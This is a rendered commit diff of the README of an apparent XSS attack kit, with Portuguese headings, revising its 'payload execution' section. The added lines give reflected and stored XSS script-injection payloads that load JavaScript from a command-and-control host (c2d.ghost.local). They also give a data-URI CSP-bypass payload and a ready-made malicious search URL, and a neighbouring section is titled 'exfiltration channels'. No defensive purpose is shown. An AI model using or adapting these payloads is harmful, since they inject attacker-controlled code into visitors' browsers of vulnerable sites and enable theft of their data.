

Before and after one commit to sucloudflare/xss-malvadao, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update payload execution section in README

```diff
--- a/README.md
+++ b/README.md
@@ -273,17 +273,20 @@ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -node
             </pre>
         </div>
 
- <div class="section" id="payload">
-            <h2>9. Execução do Payload</h2>
-            <h4>Reflected XSS</h4>
-            <pre>
-<script src=https://c2d.ghost.local/payload/phantom_zero.min.js></script>
-            </pre>
-            <h4>Data URI (CSP Bypass)</h4>
-            <pre>
-&lt;script src="data:text/javascript;base64,BASE64"&gt;&lt;/script&gt;
-            </pre>
-        </div>
+<div class="section" id="payload">
+    <h2>9. Execução do Payload</h2>
+
+ <h4>Reflected XSS</h4>
+    <pre>"&gt;&lt;script src="https://c2d.ghost.local/payload/phantom_zero.min.js"&gt;&lt;/script&gt;</pre>
+
+ <h4>Stored XSS</h4>
+    <pre>&lt;script src="https://c2d.ghost.local/payload/phantom_zero.min.js"&gt;&lt;/script&gt;</pre>
+
+ <h4>Data URI (Bypass CSP)</h4>
+    <pre>&lt;script src="data:text/javascript;base64,BASE64_DO_PAYLOAD_AQUI"&gt;&lt;/script&gt;</pre>
+    <p><strong>Exemplo prático (Reflected):</strong></p>
+    <pre>https://vulnerable.site/search?q="&gt;&lt;script src=https://c2d.ghost.local/payload/phantom_zero.min.js&gt;&lt;/script&gt;</pre>
+</div>
 
 <div class="section" id="exfil">
             <h2>10. Canais de Exfiltração</h2>
```
